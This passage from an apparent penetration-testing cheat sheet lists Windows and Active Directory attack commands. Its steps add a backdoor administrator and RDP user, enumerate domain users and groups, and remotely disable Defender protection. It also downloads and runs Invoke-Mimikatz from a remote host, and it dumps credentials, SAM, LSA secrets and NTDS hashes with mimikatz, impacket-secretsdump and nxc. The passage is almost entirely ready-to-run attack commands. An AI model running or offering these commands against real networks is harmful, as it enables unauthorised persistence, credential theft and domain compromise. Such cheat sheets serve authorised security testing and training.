 ### Persistence

```powershell
PS C:\> net user administrator password
PS C:\> net localgroup Administrators hacker /add
PS C:\> net localgroup "Remote Desktop Users" hacker /ADD
```

# Active Directory

>   https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet
>
>   https://swisskyrepo.github.io/InternalAllTheThings/

### AD Enumeration

```bash
$ impacket-GetADUsers -dc-ip $DC_IP "domain.name/" -all 
$ impacket-GetADUsers -dc-ip $DC_IP domain.name/username:password -all
```

```powershell
PS C:\> net user /domain
PS C:\> net user <user> /domain
PS C:\> net group /domain
# Download and use PowerView
PS C:\> curl https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1 -o PowerView.ps1
PS C:\> ..\PowerView.ps1
# Get members of local group (PowerView)
PS C:\> Get-NetLocalGroup -ComputerName <domain> -Recurse
# Find DC hostname
PS C:\> [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
```

### Secrets Dumping

```bash
$ impacket-secretsdump Administrator:'password'@$IP -outputfile hashes
```

```powershell
PS C:\> ./mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
PS C:\> ./mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "vault::cred /patch" "exit"
PS C:\> .\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::msv" "lsadump::sam" "exit"

# Leverage ScriptBlock
PS C:\> $sess = New-PSSession -ComputerName <hostname>
PS C:\> Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
PS C:\> iex (iwr http://$IP/Invoke-Mimikatz.ps1 -UseBasicParsing)
PS C:\> Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess

$ nxc smb $IP/24 -u -u 'user' -p 'pass' --sam
$ nxc smb $IP/24 -u 'user' -p 'pass' --lsa
$ nxc smb $IP -u 'user' -p 'pass' --ntds
$ nxc smb $IP -u 'user' -p 'pass' --ntds --users
$ nxc smb $IP -u 'user' -p 'pass' --ntds --users --enabled
$ nxc smb $IP -u 'user' -p 'pass' --ntds vss
```
